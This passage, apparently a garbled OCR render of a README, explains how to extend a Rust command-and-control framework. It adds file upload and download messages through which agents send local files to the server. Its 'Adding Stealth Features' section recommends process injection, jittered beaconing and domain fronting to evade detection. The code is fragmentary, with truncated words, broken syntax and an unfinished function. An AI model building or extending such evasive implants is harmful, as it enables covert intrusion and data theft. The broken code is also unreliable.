 ## Extending the Framework

### Adding. Add a new variant to the `MessageType` enum in both server and agent code
2. Implement handling for the new message type ind
3. Add client-side logic to handle the new message type

Example for adding file transfer capability1. Add to MessageType enum (already included in base code)
#[derive(Serialize, Deserialize, Debug, Clone)]
enum MessageType {
    // Existing types...
    FileUpload,
    FileDownload,
}

// 2. Add server-side handling
fn process_message(&self, message: Message) -> Message {
    match message.msg_type {
        // Existing handlers...
        MessageType::FileUpload => {
            // Implement file upload logic
            let file_data: FileData = serde_json::from_str(&message.content).unwrap();
            // Save file to disk
            std::fs::write(file_data.filename, file_data.content).unwrap();
            
            Message {
                id:(),
                msg_type: MessageType::FileUpload,
                timestamp: SystemTime::now().duration_since(SystemTime::UNIX_EPOCH).unwrap().as_secs(),
                content: "File uploaded successfully".to_string(),
                agent_id: message.agent_id,
            }
        },
        // Add other handlers...
    }
}

// 3. Add agent-side implementation
fn upload_file(&self, path: &str) -> bool {
    let content = std::fs::read(path).unwrap();
    let filename = std::path::Path::new(path).file_name().unwrap().to_str().unwrap();
    
    let file_data = FileData {
        filename: filename.to_string(),
        content: content Send file data to server
    // Implementation details...
}
```

### Adding Stealth Features

To enhance the stealth capabilities of the agent:

1. Implement process injection to run within another process
2. Add jitter to communication intervals
3. Implement domain fronting or other traffic obfuscation techniques

Example of adding jitter to communication:

```rust
fn run(&mut self) {
    // Registration code...
    
    let mut rng = rand::thread_rng();
```
